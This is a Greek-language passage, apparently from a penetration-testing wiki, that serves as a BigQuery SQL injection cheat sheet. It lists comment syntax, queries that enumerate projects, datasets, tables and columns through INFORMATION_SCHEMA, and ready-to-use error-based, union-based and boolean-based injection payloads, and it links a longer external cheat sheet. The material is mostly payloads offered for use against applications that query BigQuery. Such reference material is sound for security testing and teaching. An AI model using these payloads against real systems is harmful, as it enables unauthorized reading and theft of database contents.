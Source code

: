 ```bash
```
{% endcode %}

### BigQuery SQL Injection

Για περισσότερες πληροφορίες μπορείτε να ελέγξετε την ανάρτηση στο blog: [https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac). Εδώ θα δοθούν μόνο μερικές λεπτομέρειες.

**Σχόλια**:

* `select 1#from here it is not working`
* `select 1/*between those it is not working*/` Αλλά μόνο η αρχική δεν θα λειτουργήσει
* `select 1--from here it is not working`

Πάρτε **πληροφορίες** σχετικά με το **περιβάλλον** όπως:

* Τρέχων χρήστης: `select session_user()`
* ID έργου: `select @@project_id`

Συνδυάστε γραμμές:

* Όλα τα ονόματα πινάκων: `string_agg(table_name, ', ')`

Πάρτε **datasets**, **tables** και **column** ονόματα:

* **Όνομα έργου** και **dataset**: 

{% code overflow="wrap" %}
```sql
SELECT catalog_name, schema_name FROM INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

* **Ονόματα στήλης** και **πίνακα** όλων των **πινάκων** του συνόλου δεδομένων:

{% code overflow="wrap" %}
```sql
# SELECT table_name, column_name FROM <proj-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS

SELECT table_name, column_name FROM <project-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS
```
{% endcode %}

* **Άλλα σύνολα δεδομένων** στο ίδιο έργο:

{% code overflow="wrap" %}
```sql
# SELECT catalog_name, schema_name, FROM <proj-name>.INFORMATION_SCHEMA.SCHEMATA

SELECT catalog_name, schema_name, NULL FROM <project-name>.INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

**Τύποι SQL Injection:**

* Βασισμένο σε σφάλματα - casting: `select CAST(@@project_id AS INT64)`
* Βασισμένο σε σφάλματα - διαίρεση με το μηδέν: `' OR if(1/(length((select('a')))-1)=1,true,false) OR '`
* Βασισμένο σε Union (πρέπει να χρησιμοποιήσετε ALL στο bigquery): `UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#`
* Βασισμένο σε Boolean: ``' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#``
* Πιθανώς βασισμένο σε χρόνο - Χρήση δημόσιων συνόλων δεδομένων παράδειγμα: ``SELECT * FROM `bigquery-public-data.covid19_open_data.covid19_open_data` LIMIT 1000``
